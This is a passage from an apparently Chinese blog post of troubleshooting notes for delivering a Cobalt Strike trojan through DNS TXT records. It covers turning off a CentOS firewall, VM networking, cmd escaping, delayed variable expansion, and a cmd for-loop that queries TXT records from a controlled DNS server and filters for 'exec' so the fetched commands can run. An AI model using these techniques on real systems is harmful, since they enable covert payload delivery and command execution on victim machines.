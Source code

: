 好在 CobaltStrike 生成的 `stege` 木马仅有 `14K`左右, 远小于 65515

### Centos 默认存在防火墙

这个问题上面已经说到了

    
    
    systemctl stop firewalld  
    

### NAT 模式下虚拟机之间不互通

这一点是我网络知识没有学好，导致前期配置好了DNS服务器，但是一直解析失败，导致自我怀疑

使用 **桥接模式** 或者直接使用 VPS 就解决了

### cmd 字符转义问题

`cmd` 命令用在 `for` 循环的单引号中时，为保证执行正常，需要使用转义符，不同的符号转义符也不一定一样，具体可以参照：

DOS特殊字符转义方法_kucece的专栏-CSDN博客_dos转义字符

我没有找到原作者是谁，只能po上来这篇转载的文章，csdn 让人恶心的地方就是标记了转载，但是可以不设置转自哪里

### cmd 命令中变量值不变的问题

这个问题看起来很奇怪，但是很重要，cmd命令中，如果你不开启延时变量，变量的值在循环过程中是不会变化的，在批处理中可以使用 `setlocal
EnableDelayedExpansion` 进行开启延时变量，在 cmd 命令中需要使用 `cmd /v:on` 来进行开启，之后所有的变量不再使用
`%a%` 这种形式，而是使用 `!a!` 这种形式

### cmd 命令中关闭命令本身 echo

`cmd /Q`

这个大家自行体会一下就可以了

### cmd 命令中 for 命令边界问题

很难想象，在 cmd 中 for 命令是没有边界的，至少是我没有发现

什么叫没有边界呢？

    
    
    for /f for /f "tokens=*" %%i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (xxxxx)  
    

这里 `do` 后面的括号中xxxxx 就是要执行的命令

但是如果我想在整个for 循环命令结束后打印某个变量

    
    
    for /f for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (xxxxx) && echo %a  
    

这个时候的结果是每一次循环都会打印一次 `%a` ,也就是说 `echo %a` 成了`for` 循环 `do` 后面的一部分

这个问题没有办法解决，只能通过嵌套 `if` 判断来控制什么时候打印
